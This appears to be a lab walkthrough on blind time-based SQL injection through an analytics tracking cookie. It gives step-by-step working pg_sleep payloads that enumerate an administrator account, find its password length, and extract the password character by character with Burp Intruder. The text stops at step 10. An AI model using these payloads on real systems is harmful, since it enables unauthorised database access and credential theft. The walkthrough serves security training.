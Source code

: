 ```jBLFcMbX0aiwI7lY'||(SELECT ‘')||'```
The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

**Solution**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the *TrackingId* cookie.
2. Modify the *TrackingId* cookie, changing it to:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- ```

    Verify that the application takes 10 seconds to respond.
3. Now change it to:

    ```TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```

    Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
4. Now change it to:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

    Verify that the condition is true, confirming that there is a user called *administrator*.
5. The next step is to determine how many characters are in the password of the *administrator* user. To do this, change the value to:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

    This condition should be true, confirming that the password is greater than 1 character in length.
6. Send a series of follow-up values to test different password lengths. Send:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

    Then send:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
8. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9. In the Positions tab, change the value of the cookie to:

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```

    This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
10. Place payload position markers around the a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):

    ``` TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- ```
```